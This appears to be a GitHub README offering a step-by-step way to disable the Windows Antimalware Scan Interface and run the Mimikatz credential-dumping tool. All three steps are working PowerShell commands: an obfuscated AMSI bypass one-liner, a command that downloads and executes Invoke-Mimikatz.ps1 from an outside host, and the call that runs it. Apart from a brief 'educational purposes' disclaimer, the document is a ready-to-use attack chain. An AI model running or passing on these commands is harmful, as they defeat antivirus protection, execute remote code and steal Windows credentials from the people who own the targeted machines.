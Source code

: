 # 🔥 AMSI Bypass + Mimikatz Execution

This repository provides a method to bypass the **Windows Antimalware Scan Interface (AMSI)**, allowing **Mimikatz** to execute without triggering antivirus detection.  
⚠️ **This technique is for educational and research purposes only.** Use it responsibly.

---

## 🚀 How to Use

### **Step 1: Disable AMSI in PowerShell**
Run the following command in **PowerShell** to bypass AMSI:

```powershell
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.("Set" + "Value")($null,$true)
```
### **Step 2: Download Mimikatz**

````powershell
$Y=New-Object Net.WebClient;$script=$Y.DownloadString("https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1");Invoke-Expression $script
````
### **Step 3: Execute Mimikatz**
Run the following command in **PowerShell** to execute Mimikatz:

```powershell
Invoke-Mimikatz
````

